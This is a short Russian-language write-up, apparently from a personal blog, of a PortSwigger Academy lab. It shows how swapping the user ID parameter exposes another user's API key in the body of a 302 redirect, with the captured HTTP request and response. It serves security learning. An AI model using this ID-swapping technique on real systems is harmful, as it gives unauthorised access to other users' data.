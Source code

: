 ```yaml
---
title: "User ID controlled by request parameter with data leakage in redirect"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect"
classes: wide
---
```


Для прохождения лабы нужно получить `API` ключь пользователя `carlos`. Даны креды `wiener`:`peter`.

```
https://0aae00b404d33de580dfd04300790011.web-security-academy.net/
```

## Solution

Войду в ЛК. 

У меня вот такой `URL`: `https://0aae00b404d33de580dfd04300790011.web-security-academy.net/my-account?id=wiener`.

Сразу поробую подставить `carlos` вместо `wiener`. Получил странный результат. Меня перекинуло на страницу `/login`. Посмотрю на это в `Burp`:

```http
GET /my-account?id=carlos HTTP/2
Host: 0aae00b404d33de580dfd04300790011.web-security-academy.net
Cookie: session=q5PH1quh4vnGihutrb5yzLpj33HLy6e3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```

Ответ выглядит следующим образом:

```http
HTTP/2 302 Found
Location: /login
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3655

...
```

После чего перенаправляет на `/login`. Если открыть `HTML`, то в нем можно найти следующее:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_data_leakage_in_redirect/1.png){: height="200" .align-center}

Видимо веб-сервер отдает нам страницу, а затем перенаправляет. Попробую сдать данный `API`-ключ: 

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_data_leakage_in_redirect/2.png){: height="200" .align-center}

Да, это был он)
